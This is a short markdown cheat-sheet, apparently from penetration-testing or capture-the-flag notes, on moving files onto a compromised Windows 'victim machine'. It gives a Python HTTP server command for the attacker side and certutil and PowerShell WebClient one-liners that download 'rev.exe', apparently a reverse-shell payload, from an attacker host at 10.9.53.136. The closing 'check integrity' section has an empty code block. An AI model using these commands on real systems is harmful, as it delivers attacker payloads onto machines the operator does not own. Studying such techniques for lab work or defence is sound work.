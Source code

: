 # 2 file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```

- Check integrity after file transfer using

```shell
```

